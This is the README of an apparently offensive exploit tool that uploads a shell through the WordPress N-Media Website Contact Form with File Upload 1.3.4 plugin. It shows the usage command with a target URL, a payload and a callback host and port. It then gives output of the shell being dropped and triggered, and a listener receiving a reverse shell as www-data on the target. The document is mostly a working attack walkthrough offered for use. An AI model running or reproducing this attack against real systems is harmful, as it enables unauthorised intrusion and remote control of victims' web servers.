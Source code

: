 # Exploit for Wordpress N-Media Website Contact Form with File Upload 1.3.4 Shell Upload
This plugin comes with added backdoor upload features, so naturally, I had to quickly knock together an exploit for it. Basically another trivial shell upload, trying to burn through a few of these so I have non-MSF exploits for when needed.

## Usage

To use, simply select which payload you want to use (currently only back_python.php is available, but I plan on adding back_php.php and back_perl.php at a later date). This is the 
"payload.php". You also must specify a callback host and port, along with the URL to the vulnerable Wordpress installation.

Example Use:
```
xrl:~$ python2 nmediapwn.py http://192.168.0.15/wordpress/ back_python.php 192.168.0.9 1337

███╗   ██╗███╗   ███╗███████╗██████╗ ██╗ █████╗ ██████╗ ██╗    ██╗███╗   ██╗
████╗  ██║████╗ ████║██╔════╝██╔══██╗██║██╔══██╗██╔══██╗██║    ██║████╗  ██║
██╔██╗ ██║██╔████╔██║█████╗  ██║  ██║██║███████║██████╔╝██║ █╗ ██║██╔██╗ ██║
██║╚██╗██║██║╚██╔╝██║██╔══╝  ██║  ██║██║██╔══██║██╔═══╝ ██║███╗██║██║╚██╗██║
██║ ╚████║██║ ╚═╝ ██║███████╗██████╔╝██║██║  ██║██║     ╚███╔███╔╝██║ ╚████║
╚═╝  ╚═══╝╚═╝     ╚═╝╚══════╝╚═════╝ ╚═╝╚═╝  ╚═╝╚═╝      ╚══╝╚══╝ ╚═╝  ╚═══╝
Exploit for NMedia Contact Form w/ Backdoor Upload ;) Version: 20150427.1
{+} Using target URL of: http://192.168.0.15/wordpress//wp-admin/admin-ajax.php
{+} Our shell is at: http://192.168.0.15/wordpress//wp-content/uploads/contact_files/1430163090-pwn.php
{*} Sending Backconnect to 192.168.0.9:1337...
{*} Sending our payload...
{+} Using 192.168.0.9:1337 as callback...
{+} Dropping shell...
{+} Shell dropped... Triggering...
{+} got shell?
xrl:~$
```

Listener (I suggest using the [tcp-pty-shell-handler][shellhandle]):
```
$ python2 ./python-pty-shells/tcp_pty_shell_handler.py -b 0.0.0.0:1337
Got root yet?
Linux htp 3.18.0-kali3-amd64 #1 SMP Debian 3.18.6-1~kali2 (2015-03-02) x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@htp:/var/www/wordpress/wp-content/uploads/contact_files$ exit
exit
quitting, cleanup
```

## Demo 
If you want, check out the [Asciicast demo][asciicast]. The ASCII art got a bit fucked this time around due to term resizing.
[![asciicast](https://asciinema.org/a/19275.png)](https://asciinema.org/a/19275)

## Licence
Licenced under the [WTFPL][wtfpl]

[asciicast]: https://asciinema.org/a/19275
[wtfpl]: http://www.wtfpl.net/
[shellhandle]: https://github.com/infodox/python-pty-shells
